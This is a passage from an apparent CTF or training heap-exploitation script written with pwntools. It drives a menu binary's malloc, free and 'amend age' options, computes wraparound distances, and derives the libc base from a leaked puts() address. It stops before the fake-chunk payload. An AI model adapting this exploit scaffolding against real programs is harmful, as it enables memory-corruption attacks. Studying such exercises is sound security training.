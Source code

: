 ```python=
b *main+793


"""

def info(mess):
    return log.info(mess)

def success(mess):
    return log.success(mess)

def error(mess):
    log.error(mess)


def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path, env={"LD_LIBRARY_PATH": libc.path})

index = 0

# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
    global index
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")
    index += 1
    return index - 1

# Select the "free" option; send index.
def free(index):
    io.send(b"2")
    io.sendafter(b"index: ", f"{index}".encode())
    io.recvuntil(b"> ")

# Select the "amend age" option; send new value.
def amend_age(age):
    io.send(b"3")
    io.sendafter(b"age: ", f"{age}".encode())
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1

# =============================================================================

# =-=-=- PREPARE A FAKE CHUNK -=-=-=

```
